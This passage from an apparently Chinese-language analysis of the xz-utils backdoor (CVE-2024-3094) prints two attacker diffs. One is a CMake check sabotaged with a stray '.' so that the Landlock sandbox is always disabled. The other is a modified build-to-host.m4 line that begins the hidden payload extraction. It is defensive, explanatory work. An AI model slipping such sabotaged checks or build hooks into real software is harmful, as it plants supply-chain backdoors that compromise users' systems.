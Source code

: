 ```diff
+        }
+        int main(void) { return 0; }
+        "
+    HAVE_LINUX_LANDLOCK)

-    if(HAVE_LINUX_LANDLOCK_H)
-        set(SANDBOX_COMPILE_DEFINITION "HAVE_LINUX_LANDLOCK_H")
+    if(HAVE_LINUX_LANDLOCK)
+        set(SANDBOX_COMPILE_DEFINITION "HAVE_LINUX_LANDLOCK")
         set(SANDBOX_FOUND ON)
------
```

[Github 上的 commit](https://github.com/tukaani-project/xz/commit/328c52da8a2bbb81307644efdb58db2c422d9ba7#diff-1e7de1ae2d059d21e1dd75d5812d5a34b0222cef273b7c3a2af62eb747f9d20a)

{% fold info @check_c_source_compiles 與 check_include_file %}

這兩個是 cmake 定義的函數

### check_c_source_compiles

```cmake
check_c_source_compiles(<code> <resultVar>
                        [FAIL_REGEX <regex1> [<regex2>...]])
```

這會檢查<code>&lt;code&gt;</code>的原始碼能否被編譯成連接檔，並將結果存於`<resultVar>`中[^4]

### check_include_file

```cmake
CHECK_INCLUDE_FILE(<include> <variable> [<flags>])
```

這會檢查`<include>`是否能被引入，並將結果存於`<variable>`中[^5]

{% endfold %}

這一段的用處是檢查編譯機器是否能啟用 Landlock feature

原本是使用`check_include_file()`來檢查， Jia Tan 將其改為使用`check_c_source_compiles()`來檢查

理論上這樣更換並不會造成問題，但是在第11行的行首可以看到多了一個`.`，這導致這段 C code 會編譯失敗，因此關閉了 Landlock，不管在任何的機器上都會關閉，而不是原本的邏輯，只在不支援的機器關閉

## m4/build-to-host.m4

5.6.0中的 [build-to-host.m4](build-to-host.m4) 與5.6.1中的完全相同

攻擊者對標準的 build-to-host.m4 進行修改，差異如下

```diff
@@ -1,5 +1,5 @@
-# build-to-host.m4 serial 3
-dnl Copyright (C) 2023 Free Software Foundation, Inc.
+# build-to-host.m4 serial 30
+dnl Copyright (C) 2023-2024 Free Software Foundation, Inc.
 dnl This file is free software; the Free Software Foundation
 dnl gives unlimited permission to copy and/or distribute it,
 dnl with or without modifications, as long as this notice is preserved.
@@ -37,6 +37,7 @@ AC_DEFUN([gl_BUILD_TO_HOST],


   dnl Define somedir_c.
   gl_final_[$1]="$[$1]"
+  gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
   dnl Translate it from build syntax to host syntax.
   case "$build_os" in
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)